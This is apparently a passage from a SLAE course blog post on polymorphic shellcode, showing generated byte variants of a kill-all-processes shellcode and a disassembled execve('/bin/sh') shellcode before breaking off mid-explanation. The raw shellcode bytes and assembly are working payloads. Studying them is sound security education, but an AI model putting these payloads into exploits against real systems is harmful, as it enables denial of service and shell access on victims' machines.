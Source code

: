 Shellcode:  \x31\xdb\x31\xc0\x31\xc9\xb0\x09\xb1\x25\x4b\x4a\xcd\x80
Length:  14
% ./kill_it_me_softly.py -N
Shellcode:  \x31\xc9\x31\xdb\x31\xc0\x4b\xb1\x25\x90\x4a\xb0\x09\xcd\x80
Length:  15
% ./kill_it_me_softly.py -N
Shellcode:  \x31\xc9\x31\xdb\x31\xc0\xb0\x09\x4b\xb1\x25\xcd\x80
Length:  13

## Exec me a shell...

### The original shellcode

The original shellcode it can be found here:
[http://shell-storm.org/shellcode/files/shellcode-851.php](http://shell-storm.org/shellcode/files/shellcode-851.php).

It is a 30 bytes shellcode for a partially obfuscated execve() call.

{%highlight asm%}

00000000  31C9              xor ecx,ecx
00000002  F7E9              imul ecx
00000004  51                push ecx
00000005  040B              add al,0xb
00000007  EB08              jmp short 0x11
00000009  5E                pop esi
0000000A  87E6              xchg esp,esi
0000000C  99                cdq
0000000D  87DC              xchg ebx,esp
0000000F  CD80              int 0x80
00000011  E8F3FFFFFF        call dword 0x9
00000016  2F                das
00000017  62696E            bound ebp,[ecx+0x6e]
0000001A  2F                das
0000001B  2F                das
0000001C  7368              jnc 0x86
{%endhighlight%}

The basic idea is to use the call trick, as seen on [assignment
5]({{site.url}}/slae/assignment-5-metasploit-shellcode-analysis/). After
setting EAX to be filled with 0x11, that it is the opcode for execve()
shellcode, there is a JUMP on a CALL instruction that set the EIP to a pop
$esi, since in that register it will be stored the memory address of the
executable to be called, "/bin/sh" that seems to be obfuscated, this way.

{%asciicast 198401%}

### First variation

The basic idea here is that:

* EAX must be filled with 0xb;
* EBX must point to a location filled with "/bin/sh";
* ECX and EDX can be set to 0.
